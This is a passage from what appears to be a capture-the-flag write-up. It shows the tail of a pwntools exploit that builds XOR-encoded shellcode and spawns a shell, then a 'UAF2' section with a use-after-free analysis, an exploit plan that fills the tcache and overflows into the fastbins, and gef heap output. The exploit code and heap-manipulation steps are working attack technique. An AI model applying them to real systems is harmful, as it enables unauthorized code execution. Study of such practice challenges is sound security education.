 ```python
xor al, 0x4b
xor [rdx + 0x42], al
xor al, 0x4e
xor al, 0x44
xor [rdx + 0x43], al

// Craft pop rdi
xor al, 0x5a    
xor [rdx + 0x41], al
''')
# pop rax to be 0
sc += asm("pop rax") * 0x29
# padding
sc += asm("push rax") * 5

# sc = "4D4K0BB4N4D0BC4Z0BAXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXPPPPP"
# read(0, 0x00000013370000, 0x00000013370000)
sla("Input your shellcode here (max: 100):", sc)
input("getshell")
sl(b"A"*0x44 + asm(shellcraft.sh()))

p.interactive()

```
## UAF2

### Vulnerability
The bug is in`remove_animal` function
```c
free(zoo.animals[choice]->name);
free(zoo.animals[choice]);
```
There are not null the pointer after free, obivously this is a `UAF` bug.

### Exploit Plan
The idea to exploit is use `add_animal` function to create eight 0x18 size chunk and free it all. As the same size of tcache is only 7 slot, the remaining one will into fast-bins. 

```python
add(1, "A"*0x18) # 0
add(1, "B"*0x18) # 1
add(1, "C"*0x18) # 2
add(1, "D"*0x18) # 3
remove(0)
remove(1)
remove(2)
remove(3)
```

Here is the heap bins:
```bash
gef➤  heap bins
──────────────────────────────────────── Tcachebins for thread 1 ────────────────────────────────────────
Tcachebins[idx=0, size=0x20] count=7  ←  Chunk(addr=0xc77380, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xc77320, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xc77340, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xc772e0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xc77300, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xc772a0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xc772c0, size=0x20, flags=PREV_INUSE) 
───────────────────────────────── Fastbins for arena at 0x7f17eea04c80 ─────────────────────────────────
Fastbins[idx=0, size=0x20]  ←  Chunk(addr=0xc77360, size=0x20, flags=PREV_INUSE) 
Fastbins[idx=1, size=0x30] 0x00
```